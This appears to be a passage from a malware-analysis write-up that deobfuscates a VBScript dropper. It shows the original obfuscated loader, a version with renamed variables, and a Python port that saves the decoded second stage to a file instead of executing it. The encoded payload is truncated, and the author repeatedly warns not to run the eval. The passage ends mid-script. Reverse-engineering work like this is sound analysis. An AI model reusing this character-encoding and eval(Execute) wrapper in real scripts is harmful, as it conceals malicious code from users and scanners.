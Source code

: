 After splited, it'll loop through every index in the `splitedStringsOfNumbers` array, which will again convert those numbers to a character.

**Hence, we can rename those variables!**
```vb
dIM stringsOfNumbers, splitedStringsOfNumbers, evaledStringsOfNumbers
Sub FncTqZirWltYCeayCzqdIRdKqrIzaKWRIZbSCprXS
stringsOfNumbers = "399711/3601*702350/6385*8573-8541*847693/8393*7119-7005*7714-7600*463-352*1137720/9980*214336/6698*-5139+5253*8037-7936*297045/2583*[...]*2065-2024"
splitedStringsOfNumbers = splIt(stringsOfNumbers, "*")
for each number In splitedStringsOfNumbers
evaledStringsOfNumbers = evaledStringsOfNumbers & Chr(eVaL(number))
NEXT
lxtvaQuFKFKhmxjWgYFOSFuWJcYbTRdpUPuDAdnmD
end SUb
```

It's much more clear now!

**After that for loop, it'll invoke function `lxtvaQuFKFKhmxjWgYFOSFuWJcYbTRdpUPuDAdnmD`:**
```vb
SUb LXTvAQufKFkHMxJwGYFOsFUwJcYBTRDPuPUdadnmD
eval(eXecUTe(evaledStringsOfNumbers))
enD sUB
```

**Which executes the payload. (DO NOT RUN THIS EVAL)**

**So, after all the renames, the deobfucasted VBS script is this:**
```vb
dIM stringsOfNumbers, splitedStringsOfNumbers, evaledStringsOfNumbers
Sub FncTqZirWltYCeayCzqdIRdKqrIzaKWRIZbSCprXS
stringsOfNumbers = "399711/3601*702350/6385*8573-8541*847693/8393*7119-7005*7714-7600*463-352*1137720/9980*214336/6698*-5139+5253*8037-7936*297045/2583*[...]*2065-2024"
splitedStringsOfNumbers = splIt(stringsOfNumbers, "*")
for each number In splitedStringsOfNumbers
evaledStringsOfNumbers = evaledStringsOfNumbers & Chr(eVaL(number))
NEXT
evalPayload
end SUb
SUb evalPayload
eval(eXecUTe(evaledStringsOfNumbers))
enD sUB
functionSplitStringsOfNumbers
```

**Now, we can convert the above script to Python:**
```python
#!/usr/bin/env python3

def functionSplitStringsOfNumbers():
    global evaledStringsOfNumbers
    evaledStringsOfNumbers = ''
    stringsOfNumbers = '399711/3601*702350/6385*8573-8541*847693/8393*7119-7005*7714-[...]*2065-2024'
    splitedStringsOfNumbers = stringsOfNumbers.split('*')
    for number in splitedStringsOfNumbers:
        evaledStringsOfNumbers += chr(int(eval(number)))

    evalPayload()

def evalPayload():
    # DO NOT RUN THE EVAL
    # eval(evaledStringsOfNumbers)
    with open('stage2.vbs', 'w') as file:
        file.write(evaledStringsOfNumbers)

if __name__ == '__main__':
```